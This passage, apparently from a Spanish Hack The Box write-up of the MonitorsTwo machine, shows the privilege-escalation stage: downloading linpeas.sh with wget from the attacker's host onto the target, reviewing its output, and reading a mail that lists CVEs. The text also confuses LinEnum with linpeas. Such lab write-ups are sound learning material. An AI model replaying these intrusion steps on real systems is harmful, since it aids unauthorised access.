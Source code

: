 Al mencionar "pasar el linpeas", nos referimos a ejecutar LinEnum en el sistema objetivo. LinEnum es una herramienta de enumeración de Linux que se utiliza para recopilar información detallada sobre la configuración, permisos, servicios y otras características del sistema operativo.

Mediante el análisis del sistema con LinEnum, buscamos identificar posibles puntos débiles, vulnerabilidades o configuraciones inseguras que podrían ser explotadas para obtener acceso no autorizado o comprometer la seguridad del sistema. LinEnum proporciona una lista completa de las configuraciones y servicios que podrían ser objetivos potenciales para los atacantes.

Al ejecutar LinEnum, la herramienta realizará una serie de comprobaciones y análisis, como la revisión de permisos de archivos, la búsqueda de archivos SUID/SGID, la enumeración de usuarios y grupos, y la búsqueda de servicios o programas vulnerables.

El objetivo de utilizar LinEnum es obtener una visión general de la configuración y la seguridad del sistema, identificar posibles brechas o puntos débiles, y así tomar medidas proactivas para fortalecer la seguridad y corregir cualquier problema detectado.

Es importante destacar que el uso de herramientas como LinEnum debe realizarse de manera ética y legal, con el consentimiento adecuado del propietario del sistema y siguiendo las normativas y regulaciones pertinentes. El objetivo principal es mejorar la seguridad y protección del sistema, detectando y corrigiendo posibles vulnerabilidades antes de que puedan ser explotadas por atacantes malintencionados.

```javascript
marcus@monitorstwo:~$ wget http://10.10.14.94/linpeas.sh
--2023-05-02 15:12:04--  http://10.10.14.94/linpeas.sh
Connecting to 10.10.14.94:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828058 (809K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                    100%[=================================================================================================>] 808.65K  1.38MB/s    in 0.6s    

2023-05-02 15:12:05 (1.38 MB/s) - ‘linpeas.sh’ saved [828058/828058]
```
## Escalda de privilegios (Maquina Principal)

Encontramos estas dos rutas marcadas de color rojo, 

```javascript
╔══════════╣ Mails (limit 50)              
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/mail/marcus
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/spool/mail/marcus
```

Se trata de un mail en el que hablan de las vulnerabilidades encontradas y que deberían ser arregladas. En nuestro caso nos debemos fijar en la última. Se trata de una vulnerabilidad de Docker en la que podemos ejecutar comandos del contenedor en la máquina anfitriona.


```javascript
marcus@monitorstwo:~$ cat /var/mail/marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

```
